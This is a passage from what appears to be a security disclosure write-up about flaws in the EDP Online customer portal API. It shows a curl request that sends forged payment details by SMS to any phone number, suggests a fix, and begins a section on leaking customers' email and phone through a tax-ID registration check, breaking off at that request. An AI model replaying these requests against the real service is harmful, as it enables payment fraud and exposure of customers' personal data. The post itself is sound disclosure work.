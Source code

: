 Clicking `Enviar dados via SMS (serviço grátis)` will display a prompt requesting the phone number where the information should be sent to.

{{ image(
    path="images/edp/sms-dialog.png",
    alt="EDP Online SMS dialog.",
    caption_no="5",
    caption="EDP Online SMS dialog."
) }}

This is pretty useful but unfortunately lacked a few validation checks, allowing an attacker to send forged data instead of the supposed payment details. The phone number wasn't validated either, meaning that you could send the aforementioned message to a recipient of your choosing.

When submitting the form, the following request was executed:

``` sh
curl -X POST \
  https://edponline.edp.pt/api/v2/contract/sendSMSPaymentReference \
  -H 'cookie: PHPSESSID=YOUR_SESSION' \
  -d '{
        "category": "contract",
        "operation": "sendSMSPaymentReference",
        "Body": {
          "ContractId": "YOUR_CONTRACT_ID",
          "Phone": "123456789",
          "Entity": "$Injected$",
          "Reference": "$Injected$",
          "Amount": "$Injected$",
          "LimitDate": "$Injected$"
        }
      }'
```

This sent an SMS message to `123456789` with the injected data. Note that the fields with `$Injected` could be different from each other and take any string.

{{ image(
    path="images/edp/sms-result.png",
    alt="Received SMS.",
    caption_no="6",
    caption="Received SMS."
    vertical="true"
) }}

A better approach would be to only send the payment record id when the user requests the SMS.

### Email & Phone Exfiltration via NIF

Outside the private account area, there are also interesting endpoints to tinker with. In this case, the various interconnected registration and password reset flows were flawed in several ways.

Take for example the following request:

``` sh
curl -X POST \
  https://edponline.edp.pt/api/v2/auth/register \
  -d '{
        "category": "auth",
        "operation": "register",
        "Body": {
          "Operation": "CheckUser",
          "Nif": "123456789",
        }
      }'
```
